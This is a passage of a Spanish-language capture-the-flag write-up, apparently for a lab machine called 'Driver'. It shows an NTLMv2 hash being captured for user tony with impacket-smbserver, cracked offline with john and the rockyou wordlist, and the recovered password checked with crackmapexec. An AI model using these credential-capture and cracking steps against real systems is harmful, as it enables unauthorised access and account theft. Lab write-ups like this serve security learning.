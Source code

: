 - Al subirlo nos llega el hash.

```bash
➜  content impacket-smbserver zi . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.250.229,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:23bb0f7e862bb961d0a9575629a94420:010100000000000080a35aa66585da013f8e51d6f6f0512e00000000010010004f0046005a004a006a00480067004700030010004f0046005a004a006a00480067004700020010006500780041004500480047006e006d00040010006500780041004500480047006e006d000700080080a35aa66585da01060004000200000008003000300000000000000000000000002000002d6d666541de235278af71556e18b8f6cca24e3bc26bbfa175e94480b52e4e710a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003900000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:zi)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:zi)
[*] Closing down connection (10.129.250.229,49414)
[*] Remaining connections []
```

- Ahora simplemente crackeamos el hash.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2024-04-02 19:25) 8.333g/s 264533p/s 264533c/s 264533C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

- Verificamos que son correctas.

```bash
➜  content crackmapexec smb 10.129.250.229 -u 'tony' -p 'liltony'
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\tony:liltony
```

- Como tenemos el puerto de `smb` abierto podemos comprobar si tenemos acceso de escritura o del algún otro recurso compartido.
